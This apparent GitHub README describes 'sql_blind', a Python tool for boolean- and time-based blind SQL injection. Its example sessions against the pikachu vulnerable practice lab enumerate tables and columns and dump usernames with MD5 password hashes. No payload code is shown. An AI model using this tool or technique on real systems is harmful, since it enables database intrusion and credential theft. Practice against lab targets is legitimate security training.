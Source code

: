 # sql_blind
A simple tool/framework for boolean-based or time-based sql injection(blind) 

**sql_blind是一款用于基于布尔的SQL盲注和基于时间的SQL盲注的简单工具/框架**

# 简介

sql_blind是为了方便SQL盲注而开发的小工具/框架，目前支持基于布尔的SQL盲注和基于时间的SQL盲注。
其主要目的是辅助手工注入，缩短手工注入的时间。
使用者需要根据实际情况修改payload和部分参数。
小工具（的示例）基于pikachu漏洞平台SQL-Inject的盲注关卡开发，如有必要可以用这两个关卡进行测试。

#环境要求

本工具基于python3，使用前请先确保安装了python3

# 使用方法

1 下载源代码，根据实际情况修改sqli_bb.py和sqli_tb.py的payload和部分参数
2 命令行进入源代码所在文件夹（比如sqli_blind）上级文件夹
输入
python
\>\>\> from sqli_blind import *
然后调用各函数即可

#示例

##布尔盲注

以pikachu漏洞平台SQL-Inject的布尔盲注关卡为例：

\>\>\> from sqli_blind import *
\>\>\> CurrentDatabaseBool()
the name of current database contains 7 characters
the name of current database is PIKACHU
\>\>\> TablesBool()
the name of all tables in current database contains 38 characters
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND
\>\>\> ColumnsBool()
the name of all columns in current table contains 164 characters
the name of all columns in current table is USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD
\>\>\> ContentBool()
the content contains 117 characters
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03

##时间盲注

以pikachu漏洞平台SQL-Inject的时间盲注关卡为例：

\>\>\> from sqli_blind import *
\>\>\> CurrentDatabaseTime()
the name of current database contains 7 characters
the name of current database is PIKACHU
\>\>\> TablesTime()
the name of all tables in current database contains 38 characters
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND
\>\>\> ColumnsTime()
the name of all columns in current table contains 164 characters
the name of all columns in current table is USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOG!N,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD
\>\>\> ContentTime()
the content contains 117 characters
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03
